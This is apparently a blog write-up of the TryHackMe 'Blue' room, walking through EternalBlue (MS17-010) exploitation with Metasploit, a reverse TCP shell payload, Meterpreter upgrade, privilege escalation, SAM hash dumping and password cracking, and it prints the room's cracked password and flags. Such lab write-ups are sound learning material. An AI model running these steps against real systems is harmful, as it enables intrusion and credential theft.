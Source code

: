 # 💙 Blue Machine - My First Windows Exploitation Journey

```
  ____  _            __  __            _     _            
 | __ )| |_   _  ___|  \/  | __ _  ___| |__ (_)_ __   ___ 
 |  _ \| | | | |/ _ \ |\/| |/ _` |/ __| '_ \| | '_ \ / _ \
 | |_) | | |_| |  __/ |  | | (_| | (__| | | | | | | |  __/
 |____/|_|\__,_|\___|_|  |_|\__,_|\___|_| |_|_|_| |_|\___|
                                                          
    🎯 Exploiting Windows with EternalBlue (MS17-010)
```

---

## 🌟 Introduction

The **Blue** machine on TryHackMe was my first hands-on experience with Windows exploitation. This beginner-friendly room taught me how to exploit the infamous **EternalBlue** vulnerability (MS17-010) that was used in the WannaCry ransomware attack. 

This wasn't meant to be a complex CTF challenge, but rather an educational journey to understand the complete exploitation process from reconnaissance to post-exploitation.

---

## 🔍 Phase 1: Reconnaissance & Scanning

### Initial Network Scan
My first step was to scan the target machine to identify open ports and services. The machine doesn't respond to ICMP pings, so I went straight to port scanning.

**Key Findings:**
- **3 ports open** under port 1000
- Machine vulnerable to **MS17-010** (EternalBlue)

💡 **Learning Point:** Not all machines respond to ping, so don't assume they're down if ICMP fails.

---

## ⚔️ Phase 2: Exploitation with Metasploit

### Setting Up the Exploit
I fired up Metasploit and configured the EternalBlue exploit:

```bash
# Started Metasploit Framework
msfconsole

# Selected the EternalBlue exploit
use exploit/windows/smb/ms17_010_eternalblue

# Configured target
set RHOSTS [TARGET_IP]

# Set specific payload for better shell
set payload windows/x64/shell/reverse_tcp

# Launched the attack
exploit
```

**Result:** Successfully gained initial shell access to the Windows machine! 🎉

---

## 🚀 Phase 3: Privilege Escalation & Shell Upgrade

### Converting Shell to Meterpreter
The basic shell was functional but limited. I needed to upgrade it to a more powerful Meterpreter session:

```bash
# Backgrounded the shell (CTRL + Z)
# Used shell-to-meterpreter conversion
use post/multi/manage/shell_to_meterpreter

# Set the session ID
set SESSION [SESSION_ID]

# Ran the conversion
run
```

### Escalating to SYSTEM
Once I had the Meterpreter session, I escalated privileges:

```bash
# Confirmed SYSTEM privileges
getsystem
whoami  # Returned NT AUTHORITY\SYSTEM

# Listed running processes
ps

# Migrated to a stable SYSTEM process
migrate [PROCESS_ID]
```

💡 **Learning Point:** Process migration is crucial for maintaining stable access and proper privilege context.

---

## 💰 Phase 4: Credential Harvesting

### Dumping Password Hashes
With SYSTEM privileges, I could extract password hashes from the SAM database:

```bash
# Dumped all password hashes
hashdump
```

**Discovery:** Found a non-default user named **Jon**

### Hash Cracking
I copied Jon's password hash and used an offline cracking tool:

**Cracked Password:** `alqfna22`

🔐 **Learning Point:** Even with strong privileges, password cracking often requires offline analysis with wordlists and brute-force techniques.

---

## 🏆 Phase 5: Flag Hunting

I discovered three flags representing key Windows system locations:

### Flag 1: System Root
**Location:** System root directory  
**Flag:** `flag{access_the_machine}`

### Flag 2: Password Storage Location
**Location:** Where Windows stores password hashes (SAM database area)  
**Flag:** `flag{sam_database_elevated_access}`

### Flag 3: Administrator Documents
**Location:** Administrator's document folder  
**Flag:** `flag{admin_documents_can_be_valuable}`

---

## 🎓 Key Lessons Learned

### Technical Skills Gained:
- **Port Scanning:** Identifying services without ICMP
- **Exploit Selection:** Choosing appropriate exploits for discovered vulnerabilities
- **Metasploit Mastery:** Using msfconsole, setting payloads, and managing sessions
- **Privilege Escalation:** Understanding Windows privilege contexts
- **Post-Exploitation:** Hash dumping, password cracking, and system enumeration

### Security Insights:
- **Patch Management:** MS17-010 was a critical vulnerability that should have been patched
- **Defense in Depth:** Single vulnerabilities can lead to complete system compromise
- **Monitoring:** These attacks generate significant logs that defenders should monitor

---

## 🔮 What's Next?

This Blue machine experience gave me confidence in:
- Using Metasploit effectively
- Understanding Windows exploitation
- Post-exploitation techniques
- The importance of proper patching

---

## 📊 Attack Timeline Summary

1. **Reconnaissance** → Port scanning and vulnerability identification
2. **Initial Access** → EternalBlue exploitation via Metasploit  
3. **Persistence** → Shell-to-Meterpreter conversion
4. **Privilege Escalation** → Process migration to SYSTEM context
5. **Credential Access** → SAM database hash dumping
6. **Collection** → Flag hunting across system locations

---

📌 **Reflection:** The Blue machine was an excellent introduction to Windows exploitation. It demonstrated how a single unpatched vulnerability can lead to complete system compromise, emphasizing the critical importance of security patching and monitoring in enterprise environments.

---

✍️ *This blog documents my hands-on experience with the Blue machine as part of my TryHackMe cybersecurity journey.*